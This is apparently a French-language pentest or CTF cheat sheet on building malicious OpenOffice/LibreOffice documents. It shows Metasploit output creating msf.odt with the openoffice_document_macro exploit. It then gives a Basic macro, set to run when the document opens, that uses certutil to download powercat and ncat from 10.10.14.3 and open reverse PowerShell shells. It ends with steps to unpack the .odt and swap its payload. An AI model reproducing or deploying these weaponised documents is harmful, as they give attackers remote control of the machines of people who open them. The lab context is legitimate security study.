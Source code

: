 [*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Basic/Standard
[*] Packaging file: Basic/Standard/script-lb.xml
[*] Packaging file: Basic/Standard/Module1.xml
[*] Packaging file: Basic/script-lc.xml
[*] Packaging file: content.xml
[*] Packaging file: manifest.rdf
[+] msf.odt stored at /root/.msf4/local/msf.odt

msf5 exploit(multi/misc/openoffice_document_macro) > quit

[*] Server stopped.
```

On peut aussi le faire à la main avecLibreoffice
Décrit ici : http://devloop.users.sourceforge.net/index.php?article167/solution-du-ctf-rabbit-de-hackthebox

On lance libreoffice
# libreoffice
On ouvre ou créé un doc.
Menu : [Tools/Macros/Edit macros]
Créer une macro
```
    Sub Bob
      Shell("cmd.exe /C ping -n 2 10.10.14.3")
      Shell("cmd.exe /C certutil.exe -urlcache -split -f ""http://10.10.14.3/powercat.ps1"" c:\wamp64\www\powercat.ps1 & c:\wamp64\www\powercat.ps1 -c 10.10.14.3 -p 443 -e powershell.exe")
      Shell("cmd.exe /C ping -n 3 10.10.14.3")
      Shell("cmd.exe /C certutil.exe -urlcache -split -f ""http://10.10.14.3/ncat.exe"" c:\wamp64\www\ncat.exe & c:\wamp64\www\ncat.exe 10.10.14.3 443 -e powershell.exe")
      Shell("cmd.exe /C ping -n 2 10.10.14.3")
      Shell("cmd.exe /C certutil.exe -urlcache -split -f ""http://10.10.14.3/ncat.exe"" C:\Windows\Temp\ncat.exe & C:\Windows\Temp\ncat.exe 10.10.14.3 443 -e powershell.exe")
      Shell("cmd.exe /C ping -n 3 10.10.14.3")
      Shell("cmd.exe /C certutil.exe -urlcache -split -f ""http://10.10.14.3/ncat.exe"" C:\Users\Public\ncat.exe & C:\Users\Public\ncat.exe 10.10.14.3 443 -e powershell.exe")
    End Sub
``` 
Dans Tools/Customize/Events -> Open Document lire la macro
Save


### Extract odt and replace payload

```
# cp /root/.msf4/local/msf.odt .
# mv msf.odt msf.odt.zip
# unzip msf.odt.zip 
Archive:  msf.odt.zip
  inflating: meta.xml                
  inflating: META-INF/manifest.xml   
  inflating: styles.xml              
 extracting: mimetype                
  inflating: settings.xml            
 extracting: Configurations2/accelerator/current.xml  
  inflating: Thumbnails/thumbnail.png  
  inflating: Basic/Standard/script-lb.xml  
  inflating: Basic/Standard/Module1.xml  
  inflating: Basic/script-lc.xml     